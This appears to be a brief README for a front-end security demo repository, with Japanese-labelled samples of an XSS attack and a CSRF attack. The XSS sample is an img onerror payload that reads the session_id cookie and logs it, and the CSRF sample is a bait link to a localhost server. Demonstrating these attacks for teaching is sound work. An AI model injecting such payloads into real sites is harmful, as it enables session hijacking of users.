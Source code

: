 # front-security-sample

### XSS攻撃サンプル
```html
<img src="x" onerror="console.log(`セッションID: ${document.cookie.split(';').map(s => s.trim()).find(s => s.startsWith('session_id='))}`)" />
```

### CSRF攻撃サンプル
```html
<a href="http://localhost:3002">ここをクリック！</a>
```